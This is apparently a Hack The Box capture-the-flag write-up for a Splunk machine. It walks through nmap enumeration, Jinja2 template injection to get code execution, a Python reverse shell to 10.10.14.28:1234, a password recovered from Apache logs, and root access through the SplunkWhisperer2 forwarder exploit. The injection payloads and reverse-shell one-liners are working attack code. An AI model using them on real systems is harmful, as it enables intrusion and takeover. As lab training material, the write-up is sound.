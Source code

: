 # Box 



![image-20201230035515067](img/image-20201230035515067.png)

https://www.hackthebox.eu/home/machines/profile/278

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Enumeration



Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.209 10.10.10.209
```

![image-20201230035855312](img/image-20201230035855312.png)

We go on the first webpage, but nothing interesting is found using gobuster.

Let's try to get on the webpage of splunk. 

![image-20201230042152630](img/image-20201230042152630.png)

we can see here a domain name dev.splunk.com, let's add it to our /etc/hosts

We now have a new page where we can register then login :

![image-20201230073548111](img/image-20201230073548111.png)

Now that we are connected we can post messages : 

![image-20201230073625066](img/image-20201230073625066.png)

Let's see if we can do some XSS :

![image-20201230080923967](img/image-20201230080923967.png)

We can see that the server runs Werkzeug which is a tool to do templates. Let's try to find the right template.

After testing {{ 7 * 7}} and getting the result 49, we can conclude that the template is jinja2. We can now try to find subprocess.Popen to get a RCE (https://akshukatkar.medium.com/rce-with-flask-jinja-template-injection-ea5d0201b870)

## Exploitation

```bash
{{[].__class__.__base__.__subclasses__()[407]}}
```

this command gives us the subprocess.popen class

![image-20201230100110528](img/image-20201230100110528.png)

Now I can execute any command with this payload : 

```bash
{{[].__class__.__base__.__subclasses__().pop(407)(['ls'],shell=True,stdout=-1).communicate()}}
```

![image-20201230101355751](img/image-20201230101355751.png)

Now let's get all the binaries from the /bin folder. I see that there is python on the remote machine. 

![image-20201230101932787](img/image-20201230101932787.png)

Let's get our reverse_shell with a python payload : 

```python
{{[].__class__.__base__.__subclasses__().pop(407)(['python2.7 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''],shell=True,stdout=-1).communicate()}}
```

![image-20201230102022216](img/image-20201230102022216.png)

We are in !

## Post-Exploitation

### User

We can see that we are in the group adm. So we can read logs.

![image-20201230103815204](img/image-20201230103815204.png)

After a while, I found a credential in the bakcup file in the /var/logs/apache2 folder.

![image-20201230144552303](img/image-20201230144552303.png)

So now we can su to shaun and get our flag :

![image-20201230144717225](img/image-20201230144717225.png)

### Root

Root was actually the easiest part because I already found the exploit during my first reconnaissance. We can see the exploit here : 

https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/

We are gonna use this script : https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

I put in a script called give_root_.sh the same payload for the reverse_shell that i used before : 

```bash
python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Then I ran our exploit : 

```bash
python3.8 exploit.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.28  --username shaun --password Guitar123 --payload "/home/shaun/give_root_.sh" 

```

![image-20201230151256511](img/image-20201230151256511.png)

Rooted.